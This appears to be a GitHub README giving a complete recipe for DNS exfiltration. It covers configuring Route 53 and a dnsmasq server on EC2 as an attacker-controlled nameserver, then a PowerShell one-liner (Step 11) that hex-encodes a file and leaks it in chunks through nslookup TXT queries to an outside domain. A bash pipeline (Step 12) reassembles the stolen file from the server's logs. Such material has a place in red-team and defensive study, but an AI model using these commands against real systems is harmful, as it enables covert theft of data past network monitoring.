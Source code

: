 # DNS_Exfil
DNS Exfiltration Setup on AWS

## Step 1: Purchase Domain Name on Route 53
Verify your email!

## Step 2: Create EC2 instance to host DNS service and logging
Use Amazon Linux OS, or any Linux OS of your preference.
Logging will contain DNS requests with encoded information, which we can then grep and cut later.

## Step 3: Create Security Groups
Inbound - Allow ICMP, TCP DNS, UDP DNS, SSH  
Outbound - Any  

## Step 4: Install dnsmasq on EC2 instance and configure it
sudo yum install dnsmasq  
sudo nano /etc/dnsmasq.conf then input the content below, right at the bottom of the config file  
  
listen-address=<EC2's private IP>  
address=/#/<EC2's public IP>  
log-queries  
log-facility=/var/log/dnsmasq.log  
  
Restart the VM, or find a way to restart dnsmasq (sudo systemctl restart systemd-networkd.service)  

sudo dnsmasq  

## Step 5: Go to Route 53 config, note down default SOA and NS records
**Record Name:** bhealthen.com  
**Type:** SOA  
**Value:** ns-1714.awsdns-22.co.uk. awsdns-hostmaster.amazon.com. 1 7200 900 1209600 86400  
**TTL:** 900  

**Record Name:** bhealthen.com  
**Type:** NS  
**Value:**  
ns-1714.awsdns-22.co.uk.  
ns-1071.awsdns-05.org.  
ns-577.awsdns-08.net.  
ns-113.awsdns-14.com.  
**TTL:** 172800  

![image](https://github.com/benlee105/DNS_Exfil/assets/62729308/f096c51f-a06d-4df4-b8a9-e1ad61579d8f)

## Step 6: Create A Record to point from record name to your EC2 instance
**Record Name:** ns1.bhealthen.com  
**Type:** A  
**Value:** 54.179.112.60
**TTL:** 300  

**Record Name:** ns2.bhealthen.com  
**Type:** A  
**Value:** 54.179.112.60
**TTL:** 300  

## Step 7: Modify existing NS Record to point to your NS records, which point to your EC2 instance
**Record Name:** bhealthen.com  
**Type:** NS  
**Value:**  
ns1.bhealthen.com  
ns2.bhealthen.com  
**TTL:** 60  

## Step 8: Modify existing SOA record to point to your NS record, which points to your EC2 instance
**Record Name:** bhealthen.com  
**Type:** SOA  
**Value:** ns1.bhealthen.com. admin.bhealthen.com 1 7200 900 1209600 86400  
**TTL:** 60  

## Step 9: Use CMD to nslookup as a test
nslookup -q=TXT 12332145343dafdsa234234123123453asdf234sadfsadfasdf ns1.bhealthen.com  

![image](https://github.com/benlee105/DNS_Exfil/assets/62729308/79dc6562-8f73-41bd-89ac-9db7701c0946)


## Step 10: Check your DNS logs in EC2
sudo cat /var/log/dnsmasq.log | grep -F "[TXT]"  

![image](https://github.com/benlee105/DNS_Exfil/assets/62729308/ff2684c5-136f-4ab2-8da7-88c17f0aa1a2)


## Step 11: Powershell command to hex encode a file, split, and do nslookup

`certutil -encodehex ToExfil.txt encoded.hex 12; $buffer = Get-Content .\encoded.hex; $split = $buffer -split '(.{50})' -ne ''; foreach ($line in $split) {nslookup -q=TXT "$Line.bhealthen.com" ns1.bhealthen.com; sleep 5} `

![image](https://github.com/benlee105/DNS_Exfil/assets/62729308/17905ffc-ee42-4f8d-b801-7f837d3da555)


## Step 12: Use a BASH command to read contents from TXT requests, remove unnecessary content, remove line break, remove spacing

`sudo cat /var/log/dnsmasq.log | grep -F '[TXT]' | cut -f 7 -d ' ' | cut -f 1 -d '.' | sed -z 's/\n/ /g' | sed -e 's/[[:space:]]//g' > output`  
`sudo cat output | xxd -p -r > ToExfil.txt | cat ToExfil.txt`  

![image](https://github.com/benlee105/DNS_Exfil/assets/62729308/68856338-b515-43e4-a873-d86df3ca9b27)

